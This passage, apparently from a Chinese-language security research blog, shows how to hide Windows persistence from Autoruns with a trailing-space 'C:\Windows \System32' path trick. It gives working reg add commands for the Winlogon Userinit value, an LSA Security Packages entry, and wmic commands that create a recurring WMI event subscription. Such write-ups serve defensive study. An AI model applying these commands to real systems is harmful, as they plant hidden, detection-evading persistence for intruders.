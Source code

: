Autoruns检测注册表项，将其识别为notepad.exe，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/2-1.png)

但在系统开机时启动的是正常notepad.exe，而不是putty.exe，失败

### 2、注册启动项`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`下的`Userinit`

查询原注册表项：

```
reg query "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

默认键值内容为：`C:\Windows\system32\userinit.exe,`


系统启动时启动文件`"C:\Windows \System32\notepad.exe"`，添加注册表的命令如下：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe,\"c:\windows \system32\notepad.exe\"," /f
```

**注：**

`"`在cmd下转义后用`\"`表示

系统开机时启动putty.exe，Autoruns检测注册表项，将其识别为notepad.exe，成功绕过

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/2-2.png)

**注：**

Autoruns默认不显示带有微软签名的文件，所以不会显示上图中的notepad.exe，上图为了演示专门设置为显示所有启动项

### 3、LSA Providers

注册启动项`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`下的`Security Packages`

添加键值`"c:\windows \system32\atl.dll"`

Autoruns检测注册表项，将其识别为atl.dll，成功绕过

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/2-4.png)

### 4、WMI

每隔60秒启动文件`"C:\Windows \System32\notepad.exe"`，添加wmi的命令如下：

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows \System32\notepad.exe",CommandLineTemplate="C:\Windows \System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```
